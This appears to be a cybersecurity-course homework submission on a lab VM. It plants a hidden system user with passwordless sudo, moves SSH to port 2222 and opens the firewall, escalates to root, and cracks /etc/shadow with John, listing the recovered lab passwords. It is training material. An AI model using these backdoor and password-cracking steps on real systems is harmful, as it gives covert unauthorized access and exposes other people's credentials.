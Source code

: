 # Week-6-Submission-File-Advanced-Bash---Owning-the-System

Please edit this file by adding the solution commands on the line below the prompt.
Save and submit the completed file for your homework submission.

### Step 1: Shadow People

Create a secret user named sysd. Make sure this user doesn't have a home folder created:

sudo adduser --system --no-create-home sysd

Give your secret user a password:

sudo passwd sysd

Give your secret user a system UID < 1000:

sudo usermod -u 747 sysd

Give your secret user the same GID:

sudo groupadd -g 747 sysd 

Give your secret user full sudo access without the need for a password:

sudo visudo

#User privilege specification

sysd ALL=(ALL:ALL) NOPASSWD:ALL

Test that sudo access works without your password:

sudo -l

### Step 2: Smooth Sailing

Edit the sshd_config file:

nano /etc/ssh/sshd_config

# default value

#Port 22 

Port 2222 (CTRL X and Y)

sudo ufw allow from any to any port 2222 proto tcp

### Step 3: Testing Your Configuration Update

Restart the SSH service:

systemctl restart ssh

Exit the root account:

exit

SSH to the target machine using your sysd account and port 2222:

ssh sysd@192.168.6.105 -p 2222

Use sudo to switch to the root user:

sudo su

### Step 4: Crack All the Passwords

SSH back to the system using your sysd account and port 2222:

ssh sysd@192.168.6.105 -p 2222

Escalate your privileges to the root user. Use John to crack the entire /etc/shadow file:

sudo su

john /etc/shadow

john -show /etc/shadow (if you want to verify your results)

Cracked passwords for users as follows:

vagrant          (vagrant)
instructor       (instructor)
password         (jane)
123              (sysd)
123456           (sally)
football         (billy)
welcome          (adam)
welcome          (max)
lakers           (john)
lakers           (jack)

